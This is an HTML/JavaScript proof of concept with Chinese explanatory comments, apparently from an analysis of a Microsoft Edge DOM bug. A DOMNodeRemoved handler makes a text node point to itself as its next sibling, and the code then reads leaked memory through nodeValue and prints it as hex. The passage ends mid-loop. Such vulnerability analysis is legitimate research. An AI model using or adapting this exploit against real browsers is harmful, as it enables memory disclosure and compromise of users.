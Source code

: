 ```html
<html>
  <head>
    <script>
      var uNodeRemovedEvents = 0;
      onerror = function (sError, sSource, uLine){
        alert(sError + " on line " + uLine);
      };
      
      document.addEventListener("DOMNodeRemoved", function(oEvent) {
        if (uNodeRemovedEvents++ == 0) {
          oTextNode = document.createTextNode("[2]");
          // 这里有一个需要注意的地方
          // insertBefore在Edge中如果没有第二个参数，那么等同于appendChild
          // 但是其他浏览器是不支持的
          // 作者这里用insertBefore是为了更好的去判断是否有一个堆因为此处操作被allocated
          // 用于和之后的appendChild调用区分开
          document.body.insertBefore(oTextNode);
        };
      }, true);
      
      onload = function(){
        // onload中首先执行的是appendChild
        // 这里oExistingChild已经有了父节点，所以会先从父节点移除这个元素，然后把它作为新父节点的最后一个子节点
        // 其中移除操作会触发DOMNodeRemoved事件，而增加操作会触发DOMNodeInserted事件。
        document.body.appendChild(oExistingChild);
        // 但是，在oExistingChild触发DOMNodeRemoved事件时，
        // oTextNode插入了节点中
        // 最后oExistingChild成为了最后一个元素
        // 但是这里出现了一个bug
        // oTextNode的nextSibling指向了自己
        // 在这里，DOM树出现了一种类似循环的结构
        for (var oNode = document.body.firstChild; oNode && oNode != oNode.nextSibling; oNode = oNode.nextSibling) {
            // 加上这段代码是为了防止被Edge检测到树的结构出现了问题
            // 如果没有这段代码Js执行到这里的时候就会崩溃
        }

        if (oTextNode.nextSibling !== oTextNode) {
            // 未触发漏洞时报错
          throw new Error("Tree is not corrupt");
        }
        
        alert("Set breakpoints if needed");
        // 这里是为了生成一个copy
        var sData = ("A" + oTextNode.nodeValue).substr(1);
        // 下面的逻辑是读取oTextNode.nodeValue的值
        // 但实际上是内存中某块的位置
        // 在读取之后按规则格式化输出
        var sHexData = "Read 0x" + sData.length.toString(16); 
        sHexData += " bytes: ????????`????????";
        sHexQWord = "`????????";
        for (var uBytes = 4, uOffset = 4, uIndex = 0; uIndex < sData.length; uIndex++) {
          var sHexWord = sData.charCodeAt(uIndex).toString(16);
          while (sHexWord.length < 4) sHexWord = "0" + sHexWord;
          sHexQWord = sHexWord + sHexQWord;
          uBytes += 2;
          if (uBytes == 4) sHexQWord = "`" + sHexQWord;
          if (uBytes == 8) {
            sHexData += " " + sHexQWord;
            sHexQWord = "";
            uBytes = 0;
          };
        };
```